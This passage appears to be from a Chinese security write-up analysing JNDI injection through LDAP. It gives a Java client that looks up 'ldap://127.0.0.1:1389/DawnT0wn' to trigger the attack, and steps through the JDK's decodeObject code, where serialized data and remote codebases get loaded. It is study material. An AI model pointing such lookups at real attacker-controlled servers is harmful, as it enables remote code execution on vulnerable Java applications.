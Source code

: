 客户端

```
package JNDI.Bypass;

import javax.naming.InitialContext;

public class server {
    public static void main(String[] args) throws Exception{
        Object object = new InitialContext().lookup("ldap://127.0.0.1:1389/DawnT0wn");
    }
}
```

![image-20220216102630060](images/7.png)

以下调用过程转载于https://xz.aliyun.com/t/8214#toc-2

前面的过程和之前分析RMI的时候差不多

跟进`com.sun.jndi.ldap.Obj#decodeObject`

```
static Object decodeObject(Attributes var0) throws NamingException {
    String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

    try {
        Attribute var1;
        if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
            ClassLoader var3 = helper.getURLClassLoader(var2);
            return deserializeObject((byte[])((byte[])var1.get()), var3);
        } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
            return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
        } else {
            var1 = var0.get(JAVA_ATTRIBUTES[0]);
            return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
        }
    } catch (IOException var5) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var5);
        throw var4;
    }
}
```
